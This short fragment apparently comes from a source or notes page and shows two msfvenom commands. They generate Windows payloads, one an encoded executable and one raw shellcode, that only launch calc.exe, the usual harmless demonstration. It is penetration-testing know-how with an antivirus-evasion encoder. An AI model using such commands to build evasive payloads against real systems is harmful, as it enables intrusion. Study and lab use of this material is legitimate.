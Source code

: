 
msfvenom -p windows/exec -a x86 --platform windows -f exe -o payload.exe --encoder x86/shikata_ga_nai CMD=calc.exe

msfvenom -p windows/exec -a x86 --platform windows -f raw -o shell.bin CMD=calc.exe 
